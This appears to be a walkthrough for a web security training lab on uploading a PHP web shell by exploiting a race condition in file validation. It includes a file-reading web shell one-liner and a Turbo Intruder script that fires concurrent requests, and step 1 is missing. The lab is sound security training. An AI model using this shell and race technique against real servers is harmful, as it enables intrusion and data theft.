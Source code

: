 # **7. Web shell upload via race condition**
This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.

2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.
3. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
4. Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
5. If you haven't already, add the [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension to Burp from the BApp store.
6. Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions > Turbo Intruder > Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:
    ```    
    def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)
    
def handleResponse(req, interesting): table.add(req)
